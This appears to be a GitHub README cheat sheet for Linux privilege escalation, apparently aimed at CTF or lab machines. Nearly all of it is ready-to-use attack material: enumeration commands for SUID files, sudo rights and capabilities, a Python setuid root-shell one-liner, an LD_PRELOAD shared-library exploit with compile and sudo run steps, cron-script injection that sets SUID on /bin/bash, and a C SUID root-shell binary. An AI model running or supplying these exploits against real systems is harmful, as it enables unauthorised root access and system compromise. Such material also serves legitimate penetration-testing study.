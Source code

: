 

## 🌐 Main Resources

- [GTFOBins](https://gtfobins.github.io/): Unix/Linux binaries that can be abused to escalate privileges.
- [HackTricks - Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files): Techniques for local privilege escalation on Linux.
- [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh): Script to automate privilege escalation enumeration.

---

## 🔍 General Commands

### 🔹 Find SUID/SGID files

```bash
find / -perm -6000 2>/dev/null
```

> Lists all files with SUID/SGID permissions. These can often be exploited to run programs with elevated privileges. (chmod 4000 for owner and chmod 2000 for group)

### 🔹 Check sudo rights

```bash
sudo -l
```

> Displays commands the current user can execute via sudo, with or without a password.

### 🔹 Check Linux capabilities

```bash
getcap -r / 2>/dev/null | grep '/bin/'
```

> Recursively lists files with Linux capabilities (e.g. `cap_setuid`, `cap_net_bind_service`), filtered for `/bin`.

### 🔹 Find files belonging to your group

```bash
id         # check your groups
find / -group yourgroup -type f 2>/dev/null
```

> Search for files owned by a group you are a member of.

### 🔹 Useful directories to investigate

- `/tmp`, `/var/tmp`, `/var/backups`
- `/var/mail`, `/var/spool/mail`
- `/etc/exports`
- `/opt/`: often used for custom applications

### 🔹 List open ports

```bash
netstat -tulnp
```

### 🔹 Port forwarding

```bash
ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68
```


---

## 🐍 Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

## 🔗 LD\_PRELOAD + sudo

### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

## ⏰ Crontab 

### 🔎 Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

### ⚔️ Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.
   - Use `ls -la` to inspect permissions.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

## 🧬 Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

## ⚙️ SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed with SUID.

---

## 🧱 AppArmor

- Check AppArmor profiles and restrictions in `/etc/apparmor.d/`

---


